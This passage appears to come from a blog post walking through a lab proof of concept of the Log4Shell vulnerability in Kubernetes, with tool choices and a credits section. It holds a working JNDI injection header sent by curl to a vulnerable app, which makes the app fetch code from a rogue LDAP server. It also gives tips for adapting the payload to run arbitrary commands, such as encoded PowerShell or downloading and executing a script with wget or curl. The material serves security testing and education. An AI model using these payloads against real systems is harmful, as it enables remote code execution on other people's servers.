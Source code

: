 ```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
```

The [rogue-jndi service Dockerfile container image definition](https://github.com/vicenteherrera/log4shell-kubernetes/blob/main/Dockerfile-rogue-jndi){:target="_blank"} includes in the CMD procedure the remote code to be executed when it triggers its upload. It’s a simple command to write to a `/root/test.txt` file.

To validate the attack was successful, let's check what is in the `/root/` directory of the vulnerable application:
```bash
kubectl exec service/vulnerable-log4j -it -- cat /root/test.txt
```

You should see the file exists and include the date and time of each time you have triggered the attack.

## POC considerations

For the vulnerable app, after testing several options I’ve chosen [github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) because it includes Gradle for dependency management and you can build your own container image with the provided Dockerfile. Other repositories only included the compressed `.war` file, claiming to use a pom.xml for maven that can't be used to rebuild the war because old dependencies not being available (they may have used a local cache of them). Others just include the container files without all the files required for building the application. The chosen POC is better because we can make modifications to the source code, the Java configuration, or the base Java container image to test the efect on the vulnerability.

For the malicious JNDI server, I’ve chosen [github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi). It allows you to respond with different attack strings for different Java application servers using the same single port. Another nice alternative is [github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit).

Rogue-jndi lacked a Dockerfile to deploy using a container, so I provide one that just creates a `/root/test.txt` file on the compromised workload on a successful attack. You can modify it to do different scenarios. But I warn you, you can't use `&&`, `;`, `|` or other ways of chaining different command as it has been built. When interpreting the string, it will be treated as a single command with everything else as parameters for it. Go figure, a vulnerability exploitation example that takes very seriously string sanitization of its parameters. For compromising _Windows_ that is not a problem, a single `powershell.exe  -encodedCommand <base64 string>` will execute anything. For _Linux_, you can hardcode other command executions directly on the `rogue-jndi` source code instead of relying on what is passed as a parameter when it starts. Or just modify the code and send different URLs with CURL for different commands to execute. There are several ways to succeed in executing a `wget` or `curl` to download a bash script, and then execute it in a second command.

## Thanks

Thanks to Brian Klug for the original featured image:
* Title: Anonymous Hacker
* Author: [Brian Klug](https://www.flickr.com/photos/brianklug/){:target="_blank"}
* URL: [flickr.com/photos/brianklug/6870002408/](https://www.flickr.com/photos/brianklug/6870002408){:target="_blank"}
* License: [Attribution-NonCommercial 2.0 Generic (CC BY-NC 2.0)](https://creativecommons.org/licenses/by-nc/2.0/){:target="_blank"}
* Modifications made: Added sticker "My other computer is your Log4j server" to laptop cover.
